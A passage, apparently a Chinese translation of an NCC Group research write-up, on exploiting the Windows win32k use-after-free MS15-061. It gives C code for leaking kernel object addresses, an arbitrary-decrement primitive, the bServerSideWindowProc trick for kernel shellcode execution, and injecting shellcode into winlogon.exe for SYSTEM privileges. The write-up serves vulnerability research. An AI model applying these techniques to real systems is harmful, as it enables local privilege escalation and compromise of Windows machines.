        +0x010 ulSharedDelta          : 0
        +0x014 awmControl             : [31] _WNDMSG
        +0x10c DefWindowMsgs          : _WNDMSG
        +0x114 DefWindowSpecMsgs : _WNDMSG

aheList 成员指向一个 win32k!\_HANDLEENTRY
数组，该数组包含指向对应句柄实际内核模式地址的指针。因为窗口句柄的低 16
比特实际上是 aheList
数组的索引，所以我们可以获取任意窗口桌面堆对象的内核内存指针。
因此，我们可以计算内核对象映射的用户模式内存。
这可以通过从内核指针减去 ulClientDelta 计算出。

整合到一起，我们现在可以备份要攻击的 tagCLS 对象。然后，篡改偏移 0x58
来任意自减。

.. code:: c

    VOID BackupVictimCLS(HWND tagWndHwnd){
             DWORD krnlTagWndHwnd = FindW32kHandleAddress(tagWndHwnd);
             DWORD userTagWndHwnd = krnlTagWndHwnd - g_ulClientDelta;
             DWORD krnlVictimTagCLS = *(DWORD *)(userTagWndHwnd + 0x64);
             DWORD userVictimTagCLS = krnlVictimTagCLS - g_ulClientDelta;
             memcpy(originalCLS, userVictimTagCLS, 0x5c);
             return 0;
    }
    VOID ArbDecByOne(DWORD addr){
    ...
    *(DWORD *)(originalCLS + 0x58) = addr – 0x4;
    ...
    }

4.3 tagWND 结构
***************

我决定使用 Nils [10]_ 阐述的技巧，该技巧从曾用于 Pwn2Own 2013。
首先，我创建了一个新的 win32k 窗口对象，也就是 tagWND 结构。 接着，把
shellcode 存储到它的的窗口过程中。再接着，
多次触发释放后重用来反转刚刚创建的 tagWND 结构的 bServerSideWindowProc
比特。这是因为我们需要自减这个值 直到它卷到零下并且设置 bServerSideProc
比特。

::

    kd> dt win32k!tagWND
         +0x000 head                 : _THRDESKHEAD
         +0x014 state                : Uint4B
         +0x014 bHasMeun             : Pos 0, 1 Bit
         +0x014 bHasVerticalScrollbar : Pos 1, 1 Bit
         +0x014 bHasHorizontalScrollbar : Pos 2, 1 Bit
         +0x014 bHasCaption          : Pos 3, 1 Bit
         +0x014 bSendSizeMoveMsgs : Pos 4, 1 Bit
         +0x014 bMsgBox              : Pos 5, 1 Bit
         +0x014 bActiveFrame         : Pos 6, 1 Bit
         +0x014 bHasSPB              : Pos 7, 1 Bit
         +0x014 bNoNCPaint           : Pos 8, 1 Bit
         +0x014 bSendEraseBackground : Pos 9, 1 Bit
         +0x014 bEraseBackground : Pos 10, 1 Bit
         +0x014 bSendNCPaint         : Pos 11, 1 Bit
         +0x014 bInternalPaint       : Pos 12, 1 Bit
         +0x014 bUpdateDirty         : Pos 13, 1 Bit
         +0x014 bHiddenPopup         : Pos 14, 1 Bit
         +0x014 bForceMenuDraw       : Pos 15, 1 Bit
         +0x014 bDialogWindow        : Pos 16, 1 Bit
         +0x014 bHasCreatestructName : Pos 17, 1 Bit
         +0x014 bServerSideWindowProc : Pos 18, 1 Bit
    Snipped

如果设置了 bServerSideWindowProc 比特，
关联窗口的过程将不进行情景切换就执行，
并且它以内核线程执行存储在窗口过程中的 shellcode。

现在 bServerSideWindowProc 比特已经设置了， 通过调用
SendMessage(pwndHwnd, 0x1337, 0x1337, 0x0) 函数。
这使得我们可是执行存储在与 pwndHwnd 窗口句柄关联窗口过程中的 shellcode。

4.4. 代码注入
*************

考虑到大家蛮关注 Hacking Team 的本地提权漏洞转储 [11]_ ，我使用在 Cesar
Cerrudo 的简易本地 Windows 内核漏洞利用论文中阐述的内核 shellcode 把
winlogon.exe 进程的 ACL 清零。然后将计算器的 shellcode 注入到
winlogon.exe 进程的内存空间。最后，使用 CreateRemoteThread
来调用这个计算器。

.. code:: c

    LPVOID pMem;
    char shellcode[] = "";
    wchar_t *str = L"winlogon.exe";
    HANDLE hWinLogon = OpenProcess(PROCESS_ALL_ACCESS, FALSE, GetProcId(str));
    pMem = VirtualAllocEx(hWinLogon, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT,
    PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hWinLogon, pMem, shellcode, sizeof(shellcode), 0);
    CreateRemoteThread(hWinLogon, NULL, 0, (LPTHREAD_START_ROUTINE)pMem, NULL, 0,
    NULL);

注意，计算器现在是以“NT AUTHORITY:raw-latex:`\SYSTEM`”权限在
winlogon.exe 的内存空间中运行的。

|image0|


5. 结论
-------


桌面堆用户模式映射的存在使得这个漏洞的利用十分有趣。
它几乎可以被认为是一个强有力的信息泄漏。
现在，漏洞利用的场景已经向客户端程序转移。
为了绕过客户端程序实现的沙箱，内核漏洞利用程序成为了需要。

我期待读者的反馈或者错误纠正。如果我那里弄错了或者没有恰当的引用资料来源，
你可以通过 Twitter @d0mzw，或者邮箱 dominicwang@nccgroup.trust
联系到我，我会修正并重新发布。


6. 致谢
-------


我想感谢以下个人对漏洞研究所做出的慷慨贡献:Tarjei Mandt，Mateusz
Jurczyk， Nils， Udi Yavov， 还有 Aaron
Adams。他们的贡献使得我这次漏洞利用程序的开发变得更轻松。

最后我想感谢我的同事 Andrew Hickey，Aaron Adams 与 Michael Weber
帮我做的审阅与建议。


7. 参考与进一步阅读
-------------------


.. [1] Microsoft, "Microsoft Security Bulletin MS15-061," 9 June 2015.
       [Online]. Available:
       https://technet.microsoft.com/en-us/library/security/ms15-061.aspx.

.. [2] U. Yavo, "Class Dismissed: 4 Use-After-Free Vulnerabilities in
       Windows," 14 July 2015. [Online]. Available:
       http://breakingmalware.com/vulnerabilities/class-dismissed-4-use-after-free-vulnerabilities-in-windows/.

.. [3] T. Mandt, "Kernel Attacks through User-Mode Callbacks," 2011.
       [Online]. Available:
       https://media.blackhat.com/bh-us-11/Mandt/BH\_US\_11\_Mandt\_win32k\_WP.pdf.

.. [4] A. Adams, "Exploiting the win32k!xxxEnableWndSBArrows use-after-free
       (CVE-2015-0057) bug on both 32-bit and 64-bit," 8 July 2015. [Online].
       Available:
       https://www.nccgroup.trust/globalassets/newsroom/uk/blog/documents/2015/07/exploiting-cve-2015.pdf.

.. [5] Microsoft, "About Window Classes," [Online]. Available:
       https://msdn.microsoft.com/en-us/library/windows/desktop/ms633574(v=vs.85).aspx#system.

.. [6] Microsoft, "About Atom Tables," [Online]. Available:
       https://msdn.microsoft.com/en-us/library/windows/desktop/ms649053(v=vs.85).aspx.

.. [7] Microsoft, "CreateWindowEx function," [Online]. Available:
       https://msdn.microsoft.com/en-us/library/windows/desktop/ms632680(v=vs.85).aspx.

.. [8] J. Tang, "Analysis of CVE-2015-2360 - Duqu 2.0 Zero Day
       Vulnerability," Trend Micro, 17 June 2015. [Online]. Available:
       http://blog.trendmicro.com/trendlabs-security-intelligence/analysis-of-cve-2015-2360-duqu-2-0-zero-day-vulnerability/.

.. [9] M. Jurczyk, "Windows X86 System Call Table
       (NT/2000/XP/2003/Vista/2008/7/8)," Team Vexillium, [Online]. Available:
       http://j00ru.vexillium.org/ntapi/.

.. [10] Nils, "MWR Labs Pwn2Own 2013 Write-up - Kernel Exploit," 6
        September 2013. [Online]. Available:
        https://labs.mwrinfosecurity.com/blog/2013/09/06/mwr-labs-pwn2own-2013-write-up---kernel-exploit/.

.. [11] Hacking Team, "hacking-team-windows-kernel-lpe," [Online].
        Available: https://github.com/vlad902/hacking-team-windows-kernel-lpe.

.. [12] C. Cerrudo, "Easy local Windows Kernel exploitation," IOActive,
        2012. [Online]. Available:
        https://media.blackhat.com/bh-us-12/Briefings/Cerrudo/BH\_US\_12\_Cerrudo\_Windows\_Kernel\_WP.pdf.

.. |image0| image:: calc.png


.. _MS15-061: https://technet.microsoft.com/en-us/library/security/ms15-061.aspx
